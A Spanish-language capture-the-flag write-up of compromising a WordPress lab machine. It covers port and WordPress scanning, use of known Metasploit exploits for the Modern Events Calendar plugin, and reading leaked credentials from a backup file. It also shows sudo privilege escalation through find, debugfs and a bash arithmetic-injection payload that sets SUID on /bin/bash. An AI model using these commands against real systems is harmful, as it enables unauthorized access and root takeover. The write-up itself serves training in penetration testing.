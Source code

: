 # Whoiam
## Reconocimiento
### Nmap
En primer lugar llevo a cabo un escaneo de puertos con el objetivo de identificar los servicios activos y los puertos en los que están corriendo.
```bash
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.19.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
```

![[Ciberseguridad/CTFs/253_septiembre/15-whoiam/imgs/nmap.png]]

Se trata de un servidor HTTP sirviendo una página hecha en WordPress 6.5.4, al visitarla, me encuentro con esto

![[whoiam.png]]

No hay nada más a parte de eso y el botón no lleva ningún enlace, así que lo siguiente va a ser hacer fuzzing y utilizar `whatweb` para recavar más información y encontrar un punto de entrada.
El fuzzing revela básicamente los archivos típicos de un sitio de wordpress, nada fuera de lo usual, y `whatweb` tampoco saca nada especialmente interesante que no tuviera ya gracias al escaneo de puertos.
Lo lógico ahora es usar `wpscan` para obtener más información sobre la web
```SHELL
❯ wpscan --url http://172.19.0.2/ -e u, vp, vt --api-token 0000000000000000000000000000
```
El escaneo revela varias vulnerabilidades que no estoy seguro de que vayan a serme útiles y dos usernames: `erik` y `developer`. Voy a probar a hacer ataques de diccionario a ambos usuarios usando la misma herramienta, a ver si dan resultado.
Cuando veo que no funciona el ataque me doy cuenta de que no he enumerado bien con `wpscan`, lanzo el comando de nuevo corregido.
```shell
❯ wpscan --url http://172.19.0.2/ -e p --api-token 0000000000000000000000000000
```

El escaneo bien configurado revela un plugin con un más que amplio historial de vulnerabilidades que puedo explotar. Hago uso de `searchsploit` y después de Metasploit para utilizar el exploit en la página.

```shell
❯ searchsploit modern events calendar lite
---------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                      |  Path
---------------------------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin Modern Events Calendar 5.16.2 - Event export (Unauthenticated)                     | php/webapps/50084.py
Wordpress Plugin Modern Events Calendar 5.16.2 - Remote Code Execution (Authenticated)              | php/webapps/50082.py
WordPress Plugin Modern Events Calendar V 6.1 - SQL Injection (Unauthenticated)                     | php/webapps/50687.py
❯ msfdb run
msf6 > search modern calendar
Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/wp_modern_events_calendar_sqli    2021-12-13       normal     Yes    WordPress Modern Events Calendar SQLi Scanner
   1  exploit/multi/http/wp_plugin_modern_events_calendar_rce  2021-01-29       excellent  Yes    Wordpress Plugin Modern Events Calendar - Authenticated Remote Code Execution
msf6 > use 1
```

En este caso voy a usar el exploit de index 0, así que lanzo `use 0` y después `options` para configurar los parámetros del exploit.
Después de probar ambos exploit veo que ninguno funciona, el 0 se queda atascado y el 1 requiere la contraseña del administrador (quizá sea útil más adelante).
Voy a lanzar un fuzzing de nuevo por si me hubiera dejado algo interesante.
Encuentro una ruta que había pasado por alto pero que tiene un archivo muy interesante, se trata de `/backup`, al visitarla esto es lo que hay

![[backup.png]]

## Explotación
Bajo el archivo, lo descomprimo y un cat revela que el contenido son las credenciales de developer y su password.

![[unzip.png]]

Se me ocurre que se podría probar de nuevo el exploit que requería contraseña, ya que ahora sí la tengo. 

![[adminadmin.png]]

Me estaba dando problemas entrar como `developer` así que creé un usuario y conseguí entrar.

## Post-explotación
Al entrar como `www-data` y hacer `sudo -l`, veo que puedo ejecutar `find` como el usuario `rafa`, y pivoto fácilmente con
```
sudo -u rafa find . -exev /bin/sh \;quit
```

![[rafa.png]]

Ya autenticado como rafa, al hacer `sudo -l` de nuevo veo que es posible pivotar a `ruben` haciendo uso del binario `debugfs`.
```
sudo -u ruben debugfs
!/bin/bash
```

![[penguinsh.png]]

Una vez estoy dentro como ruben, al hacer `sudo -l` veo que puedo ejecutar bash en un script alojado en `/opt`, al hacerle un cat vep su contenido:
```
cat penguin.sh
#!/bin/bash

read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi
```

El código da como valor correcto el input `42`, entonces, con la siguiente línea se "engaña" al código para añadir el bit SUID al binario bash, permitiendo que si cualquier usuario lo ejecuta con el parámetro `-p` herede los permisos del dueño, es decir, `root`.
```
sum[$(chmod u+s /bin/bash >&2)]+42
```


![[Ciberseguridad/CTFs/253_septiembre/15-whoiam/imgs/root.png]]